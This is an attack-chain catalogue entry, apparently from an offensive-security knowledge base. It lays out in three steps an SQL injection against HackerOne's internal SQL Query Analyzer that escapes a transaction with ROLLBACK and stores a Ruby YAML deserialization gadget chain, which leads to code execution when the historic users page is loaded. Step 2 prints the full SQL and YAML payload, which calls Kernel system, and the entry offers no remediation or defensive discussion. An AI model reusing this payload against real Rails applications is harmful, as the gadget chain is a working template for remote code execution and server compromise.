

---
tags:
  - sqli
  - deserialization
  - rce
  - ruby
  - yaml
  - postgres
type: attack_chain
tools:
  - '[[tools/paper_trail]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-SQL-Query-Analyzer-Interface]]'
  - '[[procedures/Inject-Malicious-SQL-to-Persist-Payload]]'
  - '[[procedures/Trigger-YAML-Deserialization-for-RCE]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
updated_at: '2025-12-14T03:46:25.945Z'
description: >-
  A multi-stage attack exploiting SQL injection in HackerOne's internal SQL
  Query Analyzer to persist a malicious YAML payload, leading to arbitrary Ruby
  code execution via deserialization in the historic users feature.
skill_level: intermediate
impact_level: high
id: d4080d9e-30a0-4b33-ac87-93da0a4d077d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
---
# SQL Injection in SQL Query Analyzer to Escape Transaction and Trigger YAML Deserialization RCE

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in HackerOne's internal tools.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser for web access
- [[tools/paper_trail]] (target component, vulnerable)

### Target Environment

- Ruby on Rails application
- PostgreSQL database
- Port 8080 open
- Authenticated engineer access

### Initial Access Requirements

- Valid credentials for HackerOne internal engineer account
- Localhost or internal network access to http://localhost:8080
- No prior access beyond authentication

## Detailed Attack Procedures

### Step 1: Access the SQL Query Analyzer Interface
procedure: [[procedures/Access-SQL-Query-Analyzer-Interface]]

**Objective**: Gain access to the vulnerable SQL Query Analyzer as an authenticated user to prepare for injection.

**Instructions**: Log in to the HackerOne internal dashboard and navigate to the SQL Query Analyzer page.

**Expected Output**: Interface loads, allowing input of raw SQL queries with database connection selection.

**Success Indicators**:
- Page accessible without errors
- 'public' database connection available

### Step 2: Submit Malicious SQL Query to Persist Payload
procedure: [[procedures/Inject-Malicious-SQL-to-Persist-Payload]]

**Objective**: Exploit SQL injection in the raw_sql parameter to escape the transaction, insert a malicious YAML record into the user_versions table.

**Instructions**: Select the 'public' database connection and input the malicious query using [[commands/malicious-sqli-payload]]:

```sql
SELECT 1; ROLLBACK; INSERT INTO user_versions (item_type, item_id, event, email, object) VALUES ('User', 2, 'update', 'uniquekeywordtotriggercode@hackerone.com', '--- username: - !ruby/object:Gem::Installer i: x - !ruby/object:Gem::SpecFetcher i: y - !ruby/object:Gem::Requirement requirements: !ruby/object:Gem::Package::TarReader io: &1 !ruby/object:Net::BufferedIO io: &1 !ruby/object:Gem::Package::TarReader::Entry read: 0 header: "abc" debug_output: &1 !ruby/object:Net::WriteAdapter socket: &1 !ruby/object:Gem::RequestSet sets: !ruby/object:Net::WriteAdapter socket: !ruby/module ''Kernel'' method_id: :system git_set: sleep 600 method_id: :resolve ' ); --
```

Submit the query. The ROLLBACK escapes the wrapping transaction, persisting the insert despite the app's safeguards.

**Expected Output**: Query executes without immediate error; malicious record inserted into user_versions table.

**Success Indicators**:
- No transaction rollback error
- Record verifiable in database (if access available)

### Step 3: Trigger YAML Deserialization for RCE
procedure: [[procedures/Trigger-YAML-Deserialization-for-RCE]]

**Objective**: Access the historic users feature with the crafted email to deserialize the payload and execute arbitrary Ruby code.

**Instructions**: Navigate to the historic users page and input the trigger email 'uniquekeywordtotriggercode@hackerone.com'.

**Expected Output**: Page hangs for 600 seconds due to sleep 600 execution, followed by a 500 error.

**Success Indicators**:
- Request delay of approximately 10 minutes
- Server returns 500 error after delay, confirming code execution

## Attack Chain Summary

### Key Achievements

1. Escaped database transaction via SQL injection to persist attacker-controlled data
2. Injected YAML deserialization gadget chain exploiting paper_trail gem
3. Achieved arbitrary Ruby code execution on the application server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
